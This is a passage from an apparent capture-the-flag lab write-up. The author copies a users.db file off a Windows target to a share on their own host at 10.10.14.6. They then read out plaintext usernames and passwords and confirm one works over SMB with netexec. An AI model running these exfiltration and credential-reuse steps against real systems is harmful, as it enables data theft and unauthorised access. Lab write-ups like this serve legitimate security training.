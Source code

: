 ```
    app.run(host="127.0.0.1", port=5000, debug=True, threaded=True)

```

I’ll find it in the `instance` directory:

```

PS C:\Users\blake\Documents\app\instance> ls

    Directory: C:\Users\blake\Documents\app\instance

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          5/2/2024  12:30 PM          12288 users.db

```

#### Database

I’ll start an SMB server and exfil the DB:

```

PS C:\Users\blake\Documents\app\instance> net use \\10.10.14.6\share /u:oxdf oxdf
The command completed successfully.
PS C:\Users\blake\Documents\app\instance> copy users.db \\10.10.14.6\share\

```

On my host, I’ll open it. There’s only one table:

```

oxdf@hacky$ sqlite3 users.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
user

```

It has three users with plaintext passwords, two of which are new to me:

```

sqlite> select * from user;
id|username|password
1|blakeb|ThisCanB3typedeasily1@
2|claudias|007poiuytrewq
3|alexanderk|HotP!fireguard

```

The second one works for the openfire user:

```

oxdf@hacky$ netexec smb solarlab.htb -u openfire -p 'HotP!fireguard'
SMB         10.10.11.16     445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\openfire:HotP!fireguard 

```
